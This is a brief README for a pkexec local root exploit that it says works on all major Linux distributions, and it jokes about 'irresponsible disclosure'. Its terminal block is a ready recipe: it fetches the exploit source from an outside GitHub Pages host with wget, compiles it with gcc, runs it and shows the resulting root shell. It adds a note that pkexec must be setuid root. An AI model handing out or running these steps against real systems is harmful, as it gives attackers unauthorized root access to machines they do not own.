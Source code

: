 ## 🐧MAJOR BUG GRANTS ROOT FOR ALL MAJOR LINUX DISTRIBUTIONS

##  CTF quality exploit
bla bla irresponsible disclosure

terminal:
```console
user@linux:~$ wget https://g1f1.github.io/blasty-vs-pkexec.c/blasty-vs-pkexec.c
user@linux:~$ gcc -o blasty blasty-vs-pkexec.c
user@linux:~$ ./blasty
[~] compile helper..
[~] maybe get shell now?
# whoami
root

```
exploitation when debugging:
```debug
pkexec must be setuid root
```
